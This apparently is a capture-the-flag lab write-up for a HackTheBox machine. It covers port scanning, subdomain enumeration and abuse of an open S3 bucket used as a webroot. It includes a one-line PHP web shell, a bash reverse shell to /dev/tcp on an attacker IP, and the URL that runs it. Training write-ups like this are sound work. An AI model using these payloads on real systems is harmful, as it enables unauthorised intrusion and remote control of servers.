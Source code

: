 #veryeasy 
#web
#php
#aws
#subdomains

**Reconnaissance**
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are two open ports,  port 22 running ssh service and also port 80 running a Apache webserver.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-16 11:43 CET
Nmap scan report for 10.129.79.254
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
**Exploring the website**
Since we found an standard web open port, we try to enter the website. 
After performing a manual research on the website we can find a domain in the contacts part which is `thetoppers.htb`

We need to explore more information with this domain so we add it to /etc/hosts with the following command `echo "${TARGET} thetoppers.htb" | sudo tee -a /etc/hosts`


**Subdomain discover**

One thing that we must try once we have a domain is search if there are any associated common subdomains, in order to do this we execute the following command

`gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/11/16 12:17:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
Found: gc._msdcs.thetoppers.htb (Status: 400) [Size: 306]
                                                         
===============================================================
2023/11/16 12:17:51 Finished
===============================================================
```
We found a subdomain which returns a 404 error, so as we did before we add it to /etc/hosts, to do it we use this command `echo "${TARGET} s3.thetoppers.htb" | sudo tee -a /etc/hosts`

**AWS S3 website**

As we did before we enter the new website, it says that is running so we do a little of research to find that we are working with a AWS S3, this is used as a storage service, in this particular case as a webserver. To interact with it we need to use the `aws` terminal tool, once we have the tool installed we need to setup it so we use the following command.

```
aws configure
AWS Access Key ID [None]: tmp
AWS Secret Access Key [None]: tmp
Default region name [None]: tmp
Default output format [None]: tmp
```
Once the aws cli is setup we can perform commands, first of all we want to know all the S3 endpoints so we run `aws --endpoint=http://s3.thetoppers.htb s3 ls`

```
2023-11-16 11:42:35 thetoppers.htb

```

It seems that there is only one endpoint so now we are going to explore this one, to do so we run `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

```
                          PRE images/
2023-11-16 11:42:35          0 .htaccess
2023-11-16 11:42:35      11952 index.php
```

We discover that the S3 is acting as the webroot, given this fact and the fact that we can do whatever we want to with the S3, we can upload a malicious code that let us run remote commands on the server. As the webserver is running .php we need to write the code in PHP, the following code allow us to run commands from the web url:

`<?php system($_GET["cmd"]); ?>`

Once written the code to a file `shell.php` we can upload it to the AWS S3 by running `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

To test it we can access the following url to test if we run commands as the webserver user, `http://thetoppers.htb/shell.php?cmd=id`

**Reverse shell**

Now that we are allowed to run commands we are going to get a reverse shell on the server, to do this first we write the reverse shell code, it looks like this:
```
#!/bin/bash 
bash -i >& /dev/tcp/MYVPNIP/1337 0>&1
```

Once we have created the script we can upload it to the server as shown before, by running `aws --endpoint=http://s3.thetoppers.htb s3 cp reverseShell.sh s3://thetoppers.htb`

Now we need to start a listener in our machine, to do so execute `nc -nvlp 1337`

To start the reverse shell we can enter in the following url `http://thetoppers.htb/shell.php?cmd=cat%20reverseShell.sh|bash`

Once inside the reverse shell we can run the following commands to obtain the desired flag value
```
ls
cd ..
ls
cat flag.txt
```
After getting the flag we can finally clean our pentesting environment by removing the written scripts and deleting the new domains of /etc/hosts
